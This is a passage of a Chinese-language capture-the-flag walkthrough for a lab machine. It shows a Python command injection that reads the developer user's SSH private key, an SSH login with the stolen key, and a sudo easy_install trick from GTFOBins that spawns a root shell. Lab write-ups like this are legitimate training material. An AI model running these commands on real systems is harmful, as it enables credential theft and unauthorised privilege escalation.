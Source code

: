 # 获取用户shell


执行文件后，输入以下代码获取developer用户私钥
```
__import__('os').system('cat /home/developer/.ssh/id_rsa')
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/f5ca3017182942a7a2113822001963a6.png)

成功获取developer用户私钥，我们在kali上创建一个id_rsa文件，设置权限为600，将这个私钥复制进去

![在这里插入图片描述](https://img-blog.csdnimg.cn/40ddcaac7b7e47329b947dd5a96a0446.png)


然后ssh连接
```
ssh -i id_rsa developer@10.10.11.177
```


![在这里插入图片描述](https://img-blog.csdnimg.cn/3fb6d0caad764436ac35895fa36fbfb2.png)

成功获得用户shell
# 提权
然后输入sudo -l 查看当前用户能用sudo执行什么

![在这里插入图片描述](https://img-blog.csdnimg.cn/2fa36a3e8308477e8b578e21752ca494.png)

去这个网站搜索这个程序

```
https://gtfobins.github.io/
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/7cb70377f19e486eb5d632313dac0a36.png)


![在这里插入图片描述](https://img-blog.csdnimg.cn/95e8d20de8fb4e7b965aff3b4a2a5e52.png)

找到sudo，执行以下内容
```
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo easy_install $TF
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/00f004c08b2648de9039fc4127be4e83.png)

成功获得root权限

![在这里插入图片描述](https://img-blog.csdnimg.cn/541dd188040d4e49bfb29eeffc9e21d3.png)

